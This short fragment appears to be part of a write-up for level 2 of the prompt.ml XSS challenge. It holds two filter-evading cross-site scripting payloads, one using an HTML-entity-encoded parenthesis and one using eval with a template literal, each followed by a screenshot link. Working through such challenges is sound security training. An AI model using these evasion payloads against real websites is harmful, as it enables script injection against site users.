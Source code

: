 ## Img:

1. 

`<svg><script>prompt&#x28;1)</script>`

![2_1](/img/xss/prompt_ml/level2_001.png)

2.  
``<script>eval.call`${'prompt\x281)'}`</script>``

 ![2_2](/img/xss/prompt_ml/level2_002.png)
